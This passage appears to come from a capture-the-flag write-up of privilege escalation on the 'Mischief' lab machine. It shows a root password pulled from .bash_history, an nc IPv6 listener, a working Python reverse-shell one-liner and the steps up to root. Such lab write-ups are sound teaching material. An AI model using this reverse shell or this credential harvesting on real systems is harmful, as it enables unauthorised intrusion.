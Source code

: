BIM i have shell ! :D

    loki@Mischief:~$ wc -c user.txt 
    33 user.txt
    loki@Mischief:~$ awk -F: '{print $1,$7}' /etc/passwd|grep '/bin/bash'
    root /bin/bash
    loki /bin/bash
    loki@Mischief:~$
    
PrivEsc
----

The root is not very complicated just a little creativity and logic, so there is the root password in the .bash_history file, but we can not do a **su** the command is unreachable for the user. user loki but for the user www-data we have access, for that we have to do an IPV6 reverse shell from the panel.

    loki@Mischief:~$ head -1 .bash_history 
    python -m SimpleHTTPAuthServer loki:lokipasswordmischieftrickery
    loki@Mischief:~$
    
> Username : root <br />
> Password : lokipasswordmischieftrickery

    loki@Mischief:~$ nc -6 -lvp 4567
    Listening on [::] (family 10, port 4567)

We have a listener, now have to do a reverse shell from the panel with address ipv6 obviously.

We do not have to put the IPV6 address of the machine, but the loopback address type this command and do the reverse shell, I took a lot of time to do the reverse shell.

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("::1",7894));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' && ping -c 2 127.0.0.1
    
AND BIM REVERSE SHELL ! :D

    loki@Mischief:~$ nc -6 -lvp 4567
    Listening on [::] (family 10, port 4567)
    Connection from localhost6.localdomain6 46886 received!
    /bin/sh: 0: can't access tty; job control turned off
    $ python -c "import pty;pty.spawn('/bin/bash')"
    www-data@Mischief:/var/www/html$ su - root
    su - root
    Password: lokipasswordmischieftrickery

    root@Mischief:~# wc -l /root/root.txt
    wc -l /root/root.txt
    1 /root/root.txt
    root@Mischief:~# cat /root/root.txt
    The flag is not here, get a shell to find it!
    root@Mischief:~# find / -type f -name "root.txt" -exec cat {} \; -print 2>/dev/null
    *****fad479c56f912c65d7be4487807
    /usr/lib/gcc/x86_64-linux-gnu/7/root.txt
    The flag is not here, get a shell to find it!
    /root/root.txt
    
Do not hesitate to put a star in my repository and follow me it will make me serious pleasure! :D
